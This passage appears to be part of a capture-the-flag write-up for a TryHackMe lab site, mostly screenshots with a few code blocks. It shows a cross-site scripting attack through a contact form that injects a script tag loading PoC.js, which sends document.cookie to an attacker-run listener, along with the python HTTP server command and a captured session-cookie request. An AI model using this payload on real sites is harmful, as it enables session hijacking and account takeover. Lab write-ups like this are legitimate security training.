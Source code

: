 ```bash

Regards,  
Robert
```

<h2 align="center">review.thm/uploads/</h2>

<img width="1127" height="313" alt="image" src="https://github.com/user-attachments/assets/fe9482f5-a406-4c60-b9e7-fc9088c9af5e" />

<br>
<br>
<h2 align="center">review.thm/contact.php</h2>

<p align="center"><em>PoC.js</em></p>

```bash
fetch("http://xx.xxx.xx.xx:9001/?cookie"+document.cookie)
```

<p align="center">Message sent</p>

```bash
<script src="http://xx.xxx.xx.xx:9001/PoC.js"></script>
```

<p align="center">HTTP server set up</p>

```bash
:~/Sequence# python3 -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
```

<br>
<br>

<img width="1101" height="240" alt="image" src="https://github.com/user-attachments/assets/87cff185-2d5e-4ebe-80d6-3f34ce9a24b2" />

<br>
<br>
<br>
<br>

<img width="1125" height="286" alt="image" src="https://github.com/user-attachments/assets/638089b8-6716-408d-96b7-c083e51935f7" />

<br>
<br>
<br>

```bash
/?cookiePHPSESSID=************************* HTTP/1.1" 200 -
```

<img width="1134" height="345" alt="image" src="https://github.com/user-attachments/assets/c8c49612-3a2d-4813-a0d9-5cc5ed0bac70" />

<br>
<br>
<br>
